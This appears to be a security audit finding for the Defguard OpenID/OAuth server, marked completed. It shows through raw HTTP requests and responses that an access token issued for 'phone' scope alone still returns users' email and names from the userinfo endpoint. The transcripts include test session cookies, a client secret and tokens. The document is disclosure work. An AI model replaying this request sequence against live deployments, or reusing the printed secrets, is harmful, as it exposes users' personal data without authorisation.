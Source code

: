 ```yaml
---
title: "DG25-22: OpenID apps do not respect scope"
severity: Medium
cvss_score: 4.3
cvss_string: "/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1519
status: Completed
---
```


### Technical details

OpenID app openid123 has been assigned only phone scope:

**Request:**\
\
**GET** /api/v1/oauth HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=KENMUulcmfVkD0W8MZjN4Rjw\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Mon, 11 Aug 2025 11:26:20 GMT\
\[\...\]\

```json
{
  "client_id ": "9szvHNlxY6R3jvbX ",
  "client_secret ": "SHyMugRCmiTkLdo1xtV5IwgrY1dKoHpN ",
  "enabled ": true,
  "id ": 8,
  "name ": "openid123 ",
  "redirect_uri ": [
    "https://isec.pl "
  ],
  "scope ": [
    "phone "
  ]
}
[ ... ]
```

This implies, that whenever user would try to authorize with more
extensive scope - oAuth flow will not let them in:

**Request:**\
\
**POST**
`/api/v1/oauth/authorize?scope=profile&response_type=code&client_id=9szvHNlxY6R3jvbX&redirect_uri=https%3A%2F%2Fisec.pl&state=1&nonce=1&allow=true`
HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=0i1uyyokye6n58A0mSLs1VQ7\
\
\
**Response:**\
\
**HTTP/2** 302 Found\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Date:** Mon, 11 Aug 2025 11:28:31 GMT\
**Location:** `https://isec.pl/?error=invalid_scope&state=1`\
**Server:** Caddy\
**Content-Length:** 0

The only acceptable scope is phone. Moreover, during the first
authorization - user is being informed, that application wants to access
only their phone data:

**Request:**\
\
**POST**
`/api/v1/oauth/authorize?scope=phone&response_type=code&client_id=9szvHNlxY6R3jvbX&redirect_uri=https%3A%2F%2Fisec.pl&state=1&nonce=1&allow=true`
HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=0i1uyyokye6n58A0mSLs1VQ7\
\
\
**Response:**\
\
**HTTP/2** 302 Found\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Date:** Mon, 11 Aug 2025 11:29:40 GMT\
**Location:** `https://isec.pl/?code=xoenjJby84EDEyKFsMRVnqEs&state=1`\
**Server:** Caddy\
**Content-Length:** 0

**Request:**\
\
**POST** /api/v1/oauth/token HTTP/2\
**Host:** defguard.dvpnsec.net\
**Content-Length:** 163\
**Content-Type:** application/x-www-form-urlencoded\
\
grant_type=authorization_code&redirect_uri=`https://isec.pl&code=xoenjJby84EDEyKFsMRVnqEs&client_id=9szvHNlxY6R3jvbX&client_secret=SHyMugRCmiTkLdo1xtV5IwgrY1dKoHpN&`\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Mon, 11 Aug 2025 11:29:52 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 124\
\
{\"access_token\":\"5CVW4Yoj5BdExPm4SyAXttu4\",\"id_token\":null,\"refresh_token\":\"L4WO6BVJqMKtAYw1nTvyf3kR\",\"token_type\":\"bearer\"}

However, the access token generated for phone scope only, has extensive
access to user e-mail, name and surname - even though those scope were
explicitly not enabled on the OpenID app.

**Request:**\
\
**GET** /api/v1/oauth/userinfo HTTP/2\
**Host:** defguard.dvpnsec.net\
**Authorization:** Bearer 5CVW4Yoj5BdExPm4SyAXttu4\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Mon, 11 Aug 2025 11:31:47 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 156\


```json
{
  "email ": "phtest2+fdsfsdfsdfdsfds@isec.pl ",
  "family_name ": "A ",
  "given_name ": "A ",
  "name ": "AA ",
  "phone_number ": "123123 ",
  "preferred_username ": "user ",
  "sub ": "user"
}
```